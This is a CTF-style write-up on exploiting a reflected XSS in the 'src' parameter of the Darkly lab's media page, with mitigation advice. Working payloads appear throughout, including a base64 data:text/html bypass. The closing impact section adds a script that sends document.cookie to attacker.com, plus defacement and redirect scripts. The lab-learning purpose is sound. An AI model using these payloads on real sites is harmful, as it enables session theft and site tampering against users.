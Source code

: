 ## Exploiting Reflected XSS on Darkly (Parameter: `src`)

### Objective
Exploit a reflected XSS vulnerability in the `src` parameter of the media page.

Target URL:
```
http://192.168.1.33/?page=media&src=<value>
```

---

### Initial Analysis

The media page utilizes the `src` parameter to include and display external resources via HTML tags such as `<object>`:

```html
<object data="test"></object>
```

After inspecting the application, no validation or filtering of user input for this parameter was detected. This led to the hypothesis that a script could be injected into this parameter to execute a reflected XSS (Cross-Site Scripting) attack.

---

### Exploitation Attempts

#### 1. Initial Injection

A simple script injection was attempted using the `src` parameter:

```
http://192.168.1.33/?page=media&src=<script>alert('XSS')</script>
```

**Result:**
The `<script>` tag was either ignored or filtered, and the attack failed.

---

#### 2. Using `<object>` Tag

Hypothesis: The media page uses tags like `<object>` to display content specified in `src`.

Attempted injection:

```html
<object data="javascript:alert('XSS')"></object>
```

**Result:**
This method also failed as some browsers or configurations block `javascript:` in the `data` attribute.

---

#### 3. Injection via `data:text/html`

The `data:text/html` scheme enables direct injection of HTML or JavaScript encoded within a URL.

- Payload to encode:

```html
<script>alert('XSS')</script>
```

- Base64 Encoded Payload:

```
PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K
```

- Constructed URL:

```
http://192.168.1.33/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K
```

**Result:**
Success! The XSS executed, and the flag was retrieved:

```
The flag is: 928d819fc19405ae09921a2b71227bd9aba106f9d2d37ac41
```

---

### Why Does `data:text/html` Work?

- The `data:` scheme allows embedding data directly in an HTML resource.
- The Base64-encoded content is interpreted as HTML by the `<object>` tag.
- In this case, the application applies no filtering or validation, allowing JavaScript execution.

#### Benefits of Base64 Encoding

- Encodes dangerous characters (`<`, `>`, `"`) to bypass filters or firewalls.
- Enables discreet and direct injection of malicious content using the `data:` scheme.

---

### Security Measures to Mitigate XSS

1. **Input Validation:**
   - Reject entries containing unauthorized schemes (e.g., `data:`, `javascript:`).
   - Reject content with potentially dangerous characters (`<`, `>`, `"`, `'`, `;`).
   - Use whitelists to allow only specific values.

2. **Output Encoding:**
   - Encode all user data before inserting it into a web page.

3. **Content Security Policy (CSP):**
   - Implement CSP to block the execution of injected or external scripts.

---

### Impact of XSS

1. **Session Hijacking:**
   Example:
   ```html
   <script>document.write('<img src="http://attacker.com?c='+document.cookie+'">');</script>
   ```

2. **Defacement:**
   Example:
   ```html
   <script>document.body.innerHTML="Hacked by Attacker";</script>
   ```

3. **Redirection:**
   Example:
   ```html
   <script>window.location.href="http://attacker.com";</script>
   ```

